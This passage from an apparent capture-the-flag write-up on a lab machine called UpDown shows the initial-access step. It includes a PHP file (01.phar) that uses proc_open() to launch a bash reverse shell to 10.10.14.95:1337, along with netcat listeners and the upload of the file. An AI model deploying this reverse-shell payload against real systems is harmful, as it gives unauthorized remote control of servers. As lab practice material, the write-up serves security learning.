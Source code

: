 ![](/assets/updown/disable-functions.png)

According to [Hacktrick]({{page.hacktrick}}), we can use `proc_open()` to execute system commands, and it's not disabled.

# Initial Access

we created a file `01.phar` containig a [bash reverse shell]({{page.pat}}) executed using [proc_open()]({{hacktrick}})

```php
http://10.10.14.95:9000/
<?php
echo proc_close(proc_open("bash -c 'sh -i >& /dev/tcp/10.10.14.95/1337 0>&1'",array(),$something));
?>
```

We setup two listeners, one on port `1337` to recieve the shell, and the second on port `9000` as before to give us time to execute this file. 

![](/assets/updown/nc-rev.png)

Then we uploaded `01.phar`

![](/assets/updown/revshell-upload.png)
